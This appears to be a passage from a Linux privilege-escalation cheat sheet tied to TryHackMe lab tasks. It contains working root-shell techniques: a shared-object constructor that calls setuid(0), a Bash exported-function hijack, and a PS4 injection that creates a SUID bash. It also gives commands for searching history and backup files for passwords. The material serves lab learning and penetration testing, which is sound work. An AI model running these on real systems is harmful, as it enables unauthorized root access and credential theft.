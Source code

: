 **Shared Object Injection**
- See [Task 12 - Linux PrivEsc | TryHackMe](https://tryhackme.com/room/linuxprivesc)
- `strace <program to run> 2>&1 | grep -iE "open|access|no such file"` run strace and search the output for open/access calls and for "no such file" errors
- ```C
  #include <stdio.h>
  #include <stdlib.h>
  
  static void inject() __attribute__((constructor));
  
  void inject() {
  	setuid(0);
  	system("/bin/bash -p");
  }
  ```
  
**Environment Variables**
- See [Task 13 - Linux PrivEsc | TryHackMe](https://tryhackme.com/room/linuxprivesc)

**Abusing Shell Features (#1)**
- See [Task 14 - Linux PrivEsc | TryHackMe](https://tryhackme.com/room/linuxprivesc)
- > "In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path."
  - ```
    function /usr/sbin/service { /bin/bash -p; }
    export -f /usr/sbin/service
    ```

**Abusing Shell Features (#2)**
- See [Task 15 - Linux PrivEsc | TryHackMe](https://tryhackme.com/room/linuxprivesc). Note: This doesn't work on Bash versions 4.4 and above
- > "When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements."
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <program>`
  - `/tmp/rootbash -p`

### Passwords & Keys
- View the content of history with `cat ~/.*history | less` and search for secrets
- Search for config files as they often contain passwords in plaintext or other reversible formats (example: `*.ovpn`)
- Search for backups and hidden files
  - `ls -la /` look for hidden files & directories in the system root
  - Other common locations to check
    - `ls -la /home/user`
    - `ls -la /tmp`
    - `ls -la /var/backups`
  - See [Task 18 - Linux PrivEsc | TryHackMe](https://tryhackme.com/room/linuxprivesc)

### Kernel Exploits
- Enumerate the kernel version `uname -a`
- Find an exploit, example: `searchsploit linux kernel 2.6.32 priv esc`
- Some resources
  - Find possible exploits with [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)
  - [Dirty COW | CVE-2016-5195](https://dirtycow.ninja/)
  - [CVE-2017-1000112](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-1000112)

### CVE

- see `/etc/issue`
- `cat /etc/*release*`
- CVE-2021-4034 > PwnKit Local Privilege Escalation
- Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation
  ```